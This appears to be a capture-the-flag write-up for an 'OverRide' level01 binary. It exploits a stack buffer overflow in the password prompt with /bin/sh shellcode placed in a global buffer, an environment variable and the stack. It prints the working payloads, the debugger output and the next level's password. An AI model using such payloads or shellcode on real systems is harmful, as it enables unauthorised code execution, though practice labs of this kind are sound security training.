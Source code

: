 The program starts by asking for a username, which will be checked with the `verify_user_name()` function. This username must be "dat_wil":

```c
bool verify_user_name(void)
{
  puts("verifying username....\n");
  return memcmp(a_user_name, "dat_wil", 7u) != 0;
}

int main(int argc, char** argv, char** envp)
{
		//...
    fgets(&a_user_name, 256, stdin);
    int ret;
    if (verify_user_name() != 0)
    {
        puts("nope, incorrect username...\n");
        ret = 1;
    }
		//...
    return ret;
}
```


Next, the program asks for a password, which is artificially checked with the `verify_user_pass()` function, but it doesn't matter since no matter the result, "nope, incorrect password..." will be displayed:
```c
 bool verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5u) != 0;
}

int main(int argc, char** argv, char** envp)
{
    char buffer[64];
		//...
    else
    {
        puts("Enter Password: ");
        fgets(&buffer, 100, stdin);
        int result = verify_user_pass(&buffer);
        if ((result == 0 || result != 0))
        {
            puts("nope, incorrect password...\n");
            ret = 1;
        }
        if (result == 0)
            ret = 0;
    }
    return ret;
}
```

It can be easily observed that `fgets()` is used to read 100 characters from stdin, while the password buffer is only 64 characters in size. As this buffer is declared at the beginning of main, it seems easy to reach EIP from it.

We can overwrite EIP from an offset of 80:

```
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

The first buffer is in a global outside of main, so at the address: `0x804a040`
```nasm
   0x08048521 <+81>:	movl   $0x804a040,(%esp) ; <== Here is the variable
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
```

We can do `0x804a040` + 7 to account for the username "dat_wil", so `0x804a047`.
This gives us this payload:
```
(python -c 'print "dat_wil\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'; python -c 'print "A" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01
```


And here is the flag!
```
level01@OverRide:~$ (python -c 'print "dat_wil\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'; python -c 'print "A" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Since it's all a matter of buffer control once we can overwrite EIP at will, we might as well go through an even simpler second solution with an environment variable:

```
level01@OverRide:~$ export EXPLOIT=$(python -c 'print "\x90" * 100 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

It is located at this address:
```nasm
x/150s environ
...
0xffffd874:     "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
...
x/50x 0xffffd874
0xffffd874:    0x45    0x58    0x50    0x4c    0x4f    0x49    0x54    0x3d
0xffffd87c:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd884:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd88c:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd894:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd89c:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd8a4:    0x90    0x90
```

Let's try with `0xffffd88c`:
```
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print  "A" * 80 + "\x8c\xd8\xff\xff"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
```


And here is (again) the flag!
```
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

This technique is ultimately the simplest since it's merely necessary to know how to overwrite EIP to redirect to a buffer which is our env, we might not even need to examine the program's code.

Is that sufficient?

Of course not 🙂

We could also try to place the shellcode directly in the buffer declared in the stack! However, it's important to consider that addresses found in gdb may differ from a normal execution. As example, from gdb, we find the address `0xffffd6cc` to recover the buffer:

```nasm
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    0x1c(%esp),%eax
   0x0804857d <+173>:	mov    %eax,(%esp); <=== EAX contains the buffer's address
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
...
Enter Password: 
SALUT

Breakpoint 1, 0x0804857d in main ()
(gdb) x/s $eax
0xffffd6cc:     "SALUT\n"
```

Therefore, it's necessary to verify the exact location during a normal execution of the program, for example with ltrace:

```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "SALUT\n"') | ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)      = 39
printf("Enter Username: ")                       = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)              = 0x0804a040
puts("verifying username....\n"Enter Username: verifying username....

)                 = 24
puts("Enter Password: "Enter Password: 
)                         = 17
fgets("SALUT\n", 100, 0xf7fcfac0)                = 0xffffd6ec <===== here
puts("nope, incorrect password...\n"nope, incorrect password...

)            = 29
+++ exited (status 1) +++
```

So, we will place on EIP the address of the start of our second buffer: `0xffffd6ec`

And so here is a 3rd payload and the associated flag:
```
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\x90" * 59 + "\xec\xd6\xff\xff"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami	
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```